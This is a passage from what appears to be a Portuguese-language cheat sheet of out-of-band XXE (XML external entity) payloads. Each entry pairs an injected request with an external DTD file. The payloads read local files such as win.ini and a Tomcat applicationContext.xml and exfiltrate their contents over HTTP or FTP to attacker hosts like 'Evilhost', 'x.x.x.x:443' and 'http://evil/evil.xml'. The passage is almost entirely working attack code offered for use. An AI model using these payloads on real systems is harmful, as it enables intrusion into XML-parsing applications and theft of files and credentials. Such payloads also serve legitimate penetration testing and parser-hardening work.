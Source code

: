 ```
]>

# Arquivo DTD

<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```

### Outros payloads Out-of-Band
```
# Payload na requisição 
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

# Arquivo DTD

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
```
# Payload na requisição 

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>

## Arquivo DTD

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
```
# Payload na requisição

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>

# Arquivo DTD
<!ENTITY all "%start;%stuff;%end;">
```
```
# Restricted to Java applications

<!--?xml version="1.0" ?-->
```